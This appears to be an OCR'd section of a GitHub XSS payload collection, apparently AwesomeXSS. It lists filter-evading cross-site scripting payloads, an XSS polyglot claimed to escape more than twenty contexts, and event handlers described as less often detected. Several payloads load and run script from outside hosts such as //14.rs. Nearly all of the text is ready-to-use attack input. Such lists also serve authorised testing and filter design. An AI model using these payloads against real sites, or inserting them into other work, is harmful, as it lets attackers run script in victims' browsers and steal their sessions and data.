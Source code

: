 This comprehensive list of sinks and source is taken from [domxsswiki](https://github.com/wisec/domxsswiki).

### Awesome Payloads
```
<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>
```

### Awesome Polyglots

Here's an XSS polyglot that I made which can break out of 20+ contexts:
```
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
```

Explanation of how it works, [here](https://github.com/s0md3v/AwesomeXSS/blob/master/Database/polyglot.png)

### Awesome Tags & Event Handlers
- [105 Event Handlers with description](https://github.com/UltimateHackers/AwesomeXSS/blob/master/Database/event-handlers.md)
- [200 Event Handlers without description](http://pastebin.com/raw/WwcBmz5J)

Some less detected event handlers
```
ontoggle
onauxclick
ondblclick
oncontextmenu
onmouseleave
ontouchcancel
```
